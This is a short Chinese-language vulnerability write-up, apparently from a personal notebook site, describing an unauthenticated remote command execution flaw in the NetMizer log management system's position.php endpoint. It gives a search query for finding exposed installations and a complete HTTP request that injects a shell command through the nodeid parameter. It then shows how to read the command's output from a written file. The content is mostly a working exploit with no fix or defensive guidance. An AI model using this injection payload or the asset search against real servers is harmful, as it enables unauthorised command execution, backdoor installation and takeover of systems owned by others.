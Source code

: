 # NetMizer 日志管理系统存在前台RCE漏洞

### 一、漏洞描述
NetMizer 日志管理系统position.php、接口处存在命令执行漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行命令，写入后门，获取服务器权限，进而控制整个web服务器。

### 二、影响版本
<font style="color:#000000;">NetMizer</font>

### 三、资产测绘
```plain
title="NetMizer 日志管理系统"
```

![1720677624454-6b76b40a-5923-426e-9d81-63dd9d76617b.png](./img/pcBac11H3i8YpRlr/1720677624454-6b76b40a-5923-426e-9d81-63dd9d76617b-738320.png)

### 四、漏洞复现
```plain
GET /data/search/position.php?action=file&nodeid=|id%3E1.txt HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1720677595198-3656affb-0930-41f2-8854-b61e681505a3.png](./img/pcBac11H3i8YpRlr/1720677595198-3656affb-0930-41f2-8854-b61e681505a3-704021.png)

```plain
/data/search/1.txt
```

![1720677700435-c746a0b6-51d4-47fc-921f-3cd022ba8826.png](./img/pcBac11H3i8YpRlr/1720677700435-c746a0b6-51d4-47fc-921f-3cd022ba8826-191347.png)



> 更新: 2024-08-12 17:48:54  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uwvvawaszmhd1b0w>